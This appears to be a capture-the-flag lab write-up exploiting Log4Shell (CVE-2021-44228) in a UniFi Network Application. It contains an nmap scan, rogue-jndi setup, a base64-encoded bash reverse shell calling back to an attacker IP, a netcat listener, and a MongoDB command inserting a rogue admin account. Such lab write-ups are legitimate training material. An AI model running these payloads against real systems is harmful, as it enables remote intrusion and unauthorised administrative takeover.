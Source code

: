#Linux #CVE-2021-44228


**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.18.96
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 22/tcp   open  OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
* 6789/tcp open  ibm-db2-admin?
* 8080/tcp open  http-proxy
* 8443/tcp open  ssl/nagios-nsca Nagios NSCA
* 8843/tcp open  ssl/unknown
* 8880/tcp open  cddbp-alt?

We'll follow procedure described in the following article:

https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi

Our action plan is to get a reverse shell so we can interact with the underlying Linux operating system

As outlined in the article, the vulnerability is in the **REMEMBER** values (which is the **PAYLOAD**). The picture below shows the POST request:

![image](https://user-images.githubusercontent.com/99097743/170084790-6d97d79b-23e0-4195-8b0a-2659b657123d.png)


```sh
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
 ```
 
 ![image](https://user-images.githubusercontent.com/99097743/170054746-daa8621e-f227-45a2-bd18-b3a3078ac94c.png)
 
It seems that Maven (MVN) is not installed in our localhost, we need to install it first.  
  
```sh
sudo apt-get install maven 

```
  
Reverse shell command: 

```sh
echo 'bash -c bash -i >&/dev/tcp/10.10.16.26/4444 0>&1' | base64
#This command will generate a base64 encrypted string

#To start the rogue-jndi LDAP server up
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMjYvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.26"

# Make sure to change the directory, base64 hash, and IP address --> VPN IP
```
![image](https://user-images.githubusercontent.com/99097743/170090287-67ec5abc-f682-4f88-9d11-3f771d3540ef.png)

#Start listening on a new terminal


```sh
sudo nc -nvlp 4444
```

We can now include payload in the REMEMBER value (see the highlighted section in the picture below) and trigger the reverse shell. In other words, the UniFi Network Application will grab the payload from rogue-jndi and then we'll get a callback in the listener terminal:

![image](https://user-images.githubusercontent.com/99097743/170090226-80b9baf1-eecb-4ab5-b48c-999f7f3cc84c.png)

Nice, we are connected!

![image](https://user-images.githubusercontent.com/99097743/170091118-34190c19-c520-427d-a778-705da14fa00d.png)

Python is not installed so please try the following command to improve the shell

```sh
script /dev/null -c bash

```
I followed the article for the next steps. Next steps are:
'
* Extract admin hashes and crack them (requires significant computing power -- I gave up on this)
* Add a new Admin account  

First, we need to generate a password hash for the admin account:

```sh
mkpasswd -m sha-512 password
  ```
  
Next, we need to enter the New Admin Command in MongoDB via our reverse shell (username = aaa)

```sh
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "aaa@localhost.local", "last_site_name" : "default", "name" : "aaa", "time_created" : NumberLong(100019800), "x_shadow" : "$6$piDZ3bwwj/g4psku$MSgskX71AEuwT/sASoYqbZ03ZiRtxtTl/OROc8mBDP4QKwAeB1VGBtIlJdEs5q7rDFpHq7dkM2dAZk/KEhRgx." })'
  ```
Once the new admin account is inserted in the MongoDB, we are ready to login to the UniFi Network Account. 
Unfortunately the website did not work so I captured the flag from the official walkthorough document :)
  
![image](https://user-images.githubusercontent.com/99097743/170099143-838be26d-0d3a-479c-a619-2c1aef01ceec.png)
